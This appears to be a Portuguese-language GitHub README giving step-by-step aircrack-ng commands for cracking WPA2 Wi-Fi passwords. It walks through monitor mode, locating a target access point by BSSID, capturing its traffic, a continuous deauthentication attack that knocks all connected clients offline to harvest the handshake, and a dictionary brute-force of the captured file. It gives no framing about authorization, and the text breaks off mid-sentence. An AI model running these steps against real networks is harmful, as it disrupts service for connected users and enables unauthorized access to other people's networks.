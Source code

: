 # aicrack-ng
***Quebrando senhas WPA2 com AIRCRACK-NG***

Nesse repósitorio você irá descubrir cada etapa para utilizar o aircrack-ng, uma excelente ferramenta para quebra de senha no modo força bruta utilizando dicionarios.

Antes de começarmos é indispensável você ter um adaptador de rede e segundo coloca-lo em modo monitor.

1- airmon-ng check kill | Esse comando irá matar todos os processos que possa vim a conflitar durante o processo de quebra.

2- airmon-ng start wlan0 | Esse comando ira colocar a placa em modo monitor.

3- airodump-ng wlan0 | Esse comando irá iniciar a busca por todos os Aps disponiveis. Os que estão por ultimo geralmente são os que estão mais próximos de você.

4- airodump-ng wlan0 -d 78:98:E8:DC:7D:A6 | - aonde entrou o 78:98:E8:DC:7D:A6 é aonde irá entrar o bssid do seu alvo, substitua - Esse comando irá identificar se há algum host conectado nessa estação (ap) caso não haja não será possível o ataque.

5-airodump-ng -w hack1 -c 2 --bssid 78:98:E8:DC:7D:A6 wlan0 |

5.1 Após isso abra mais um terminal e execute o proximo processo

6- aireplay-ng --deauth 0 -a 78:98:E8:DC:7D:A6 wlan0 | Irá gerar um ataque de negação para o (ap) alvo após isso todos os hosts serão desconectados e quando eles tentarem se conectar você obtera o handshake. O handshake aparece no terminal do processo n° 5

7 - aircrack-ng hack1-01.cap -w numeros.txt | Esse comando irá iniciar um ataque de força bruta com dicionario.

-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=--=-=-=-=-=

-numeros.txt = É uma lista de senha criadas atráves do programa crunch
-wlan0 = É o nome do meu adaptador de rede o seu pode ser diferente.
-78:98:E8:DC:7D:A6 = É o nome do bssid do meu alvo do seu será diferente não copie
-hack1 = É onde o arquivo cap será projetado, mas o nome é opcional p
